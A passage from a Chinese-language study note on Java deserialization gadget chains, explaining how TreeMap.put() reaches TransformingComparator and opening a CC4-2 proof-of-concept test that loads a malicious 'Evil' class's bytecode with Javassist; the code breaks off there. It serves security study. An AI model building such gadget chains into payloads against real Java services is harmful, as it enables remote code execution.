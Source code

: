     ![image-20241002154245083](Serialization-Java/image-20241002154245083.png)
    可以看到，`TreeMap.put()` 会进行排序 `compare()`，到此就可以接上 `TransformingComparator`。

### 10.3 CC4-2 PoC

1. PoC 如下，su18 用的是 CC2 的 chain `InvokerTransformer`，中途换用 `toString()` 应该是避免报错；这里个人依旧坚持使用 CC3 的 chain，只不过需要注意的是，`treeBag.add(templates)` 时会提前触发链条，所以先将链条中断，然后再通过反射接回来：
    ```java
    @Test
    public void testCC4_2() throws Exception {
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        